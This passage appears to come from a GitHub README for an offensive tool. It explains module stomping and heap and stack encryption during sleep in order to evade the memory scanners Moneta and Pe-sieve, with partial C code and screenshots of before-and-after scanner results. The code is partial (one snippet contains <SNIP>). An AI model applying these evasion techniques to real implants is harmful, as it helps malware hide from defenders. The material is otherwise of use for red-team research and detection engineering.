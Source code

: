 ```c
            }
            else {
                printf("[-] Failed to unload the module. Error code: %lu\n", GetLastError());
                return -1;
            }
            
            printf("[+] Encrypting Heaps/Stacks ...\n\n\n");
            HappySleep(moduleName);
            
            
        }
        else {
            printf("[-] Impossible to stomp that module\n\n");
        }
```

Let's put a `getchar()` just before `HappySleep` to check if we successfully bypassed open-source memory scanners like Moneta and Pe-sieve whenever the process is inactive :

![getchar](https://github.com/CognisysGroup/SweetDreams/assets/123980007/a5461ea7-3f75-4e6b-9380-d9c640a80773)


Let's execute Pe-sieve during shellcode execution, and we can see that it detected the stomped module

![piesieveShellcode](https://github.com/CognisysGroup/SweetDreams/assets/123980007/7ebb6fa3-6b15-4f51-80ef-36d5bfb9bc60)


Same for Monita :

![MonitaShellcode](https://github.com/CognisysGroup/SweetDreams/assets/123980007/12c35979-4f68-4a99-97b7-261b8c18b059)


Now Let's hit the `getchar` after unloading the stomped module :

0 suspicious for pe-sieve :

![Pesieve0](https://github.com/CognisysGroup/SweetDreams/assets/123980007/2caafb59-a312-4759-9633-dd557b3fb86a)


and the stomped module is not detected also for Moneta :

![Moneta0](https://github.com/CognisysGroup/SweetDreams/assets/123980007/a2502725-f8ae-47ab-9241-d1b62b7387e0)


# Happy Sleep

## Heaps Allocations Encryption

Before going further and encrypting the heap allocations we have to make sure that other threads won't access the heap's allocations while encrypting them, such behaviour will crash the process, so we have to make sure to suspend all the threads and keep only the main thread 

```c
void HappySleep(const char* moduleName) {
    
    DWORD mainThreadId = GetCurrentThreadId();

    // Suspend all threads , only the main thread 
    SuspendThreads(mainThreadId);
    // Iterate over all heaps allocations , and do encryption.
    HeapEncryptDecrypt();
    
    <SNIP>

}
```